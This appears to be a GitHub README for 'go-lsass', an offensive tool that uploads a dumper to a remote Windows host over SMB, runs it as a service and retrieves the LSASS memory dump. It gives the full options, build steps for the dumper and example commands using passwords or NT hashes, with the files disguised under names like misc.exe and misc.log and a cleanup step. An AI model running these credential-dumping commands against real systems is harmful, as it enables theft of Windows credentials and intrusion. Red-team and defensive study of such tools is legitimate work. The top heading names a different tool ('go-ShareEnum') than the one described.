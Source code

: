 # go-ShareEnum

## Description
Package go-lsass is a tool built to dump the memory of the LSASS process
remotely by uploading a local LSASS dumper, executing it as a service and then
retrieve the dump file using SMB. It is built on top of the library
https://github.com/jfjallid/go-smb and is designed to primarily work with the
LSASS dumper https://github.com/jfjallid/processdumper.

**NOTE** that the LSASS dumper utility is not included in this repo but has to be
downloaded, compiled and then included by the --dumper flag or placed in the
current directory with a name of pdumpsvc.exe.
Also note that the dumpfile when created by the tool processdumper will be
inverted, e.g., every byte will be XOR:ed with 0xFF.

## Usage
```
Usage: ./go-lsass [options]

options:
      --host                Hostname or ip address of remote server
  -P, --port                SMB Port (default 445)
  -d, --domain              Domain name to use for login
  -u, --user                Username
  -p, --pass                Password
      --hash                Hex encoded NT Hash for user password
      --local               Authenticate as a local user instead of domain user
  -n, --null                Attempt null session authentication
  -t, --timeout             Dial timeout in seconds (default 5)
      --cleanup             Perform a cleanup of service binary, service, and dumpfile
      --dumper <path>       Path to local lsass dump utility (default pdumpsvc.exe)
      --service <name>      Name of service that will be created to run the lsass dumper (default MiscSVC)
      --service-filename    Name of service binary (default misc.exe)
      --service-dir         Remote path on C: to store service binary (default C:\windows\)
      --dumpfile            Name of lsass dump file written to disk (default misc.log)
      --dumpdir             Remote path on C: to temporarily store the lsass dump (default C:\windows\)
      --output              Path to where to store the lsass dump locally (default lsass.dmp)
      --noenc               Disable smb encryption
      --smb2                Force smb 2.1
      --debug               Enable debug logging
      --verbose             Enable verbose logging
  -v, --version             Show version
```

## Using a custom lsass dumper
The default dumper tested with this tool is
https://github.com/jfjallid/processdumper. It should be downloaded and compiled
with `make service` to create a PE32 file that can be executed as a Windows
service.

Support for other LSASS dumper binaries is limited to binaries that can be
executed as a Windows service and which accepts two cmdline arguments:
"lsass.exe" and location of where to store the dumpfile which is a combination
of the two arguments --dumpdir and --dumpfile. With default settings, the two
arguments to the service binary are: "lsass.exe" and "C:\windows\misc.log"

## Examples

### Dump LSASS on a domain joined machine using a local account

```
./go-lsass --host server001 --local --user Administrator --pass adminPass123 --dumper pdumpsvc.exe
```

### Dump LSASS on a domain joined machine using a domain user with a custom directory for the service binary and dump file 

```
./go-lsass --host server001 -d test.local --user testuser --pass secretPass123 --service-dir C:\\windows\\temp\\ --dumpdir C:\\windows\\temp\\
```

### Cleanup remote files and service manually when automatic cleanup failed
Note that if any of the following custom flags were used during deployment,
they are also required during cleanup:

- --service
- --service-filename
- --service-dir
- --dumpfile
- --dumpdir

```
./go-lsass --host server001 -d test.local --user testuser --pass secretPass123 --cleanup
```
